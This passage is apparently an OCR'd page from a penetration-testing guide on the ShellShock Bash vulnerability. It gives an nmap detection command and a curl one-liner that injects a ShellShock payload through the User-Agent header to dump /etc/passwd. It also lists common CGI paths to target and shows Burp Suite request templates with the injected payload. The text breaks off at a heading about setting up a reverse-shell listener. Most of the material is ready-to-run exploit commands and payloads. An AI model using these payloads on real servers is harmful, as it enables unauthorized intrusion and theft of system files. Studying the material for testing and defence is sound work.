 ### ShellShock Vulnerability Detection

```bash
# Using nmap script
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/test.cgi <target_ip>

# Manual detection with curl
curl -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" http://<target_ip>/cgi-bin/test.cgi
```

## Manual Exploitation

### Identifying CGI Scripts

```bash
# Common CGI script locations
/cgi-bin/
/cgi-bin/test.cgi
/cgi-bin/status.cgi
/cgi-bin/admin.cgi
/gettime.cgi
```

### Manual Exploitation with Burp Suite

#### Step 1: Intercept Request

```http
GET /cgi-bin/test.cgi HTTP/1.1
Host: <target_ip>
User-Agent: Mozilla/5.0...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```

#### Step 2: Inject ShellShock Payload

```http
GET /cgi-bin/test.cgi HTTP/1.1
Host: <target_ip>
User-Agent: () { :; }; /bin/bash -c "echo; echo; /bin/cat /etc/passwd"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```

### Reverse Shell Exploitation

#### Set Up Listener

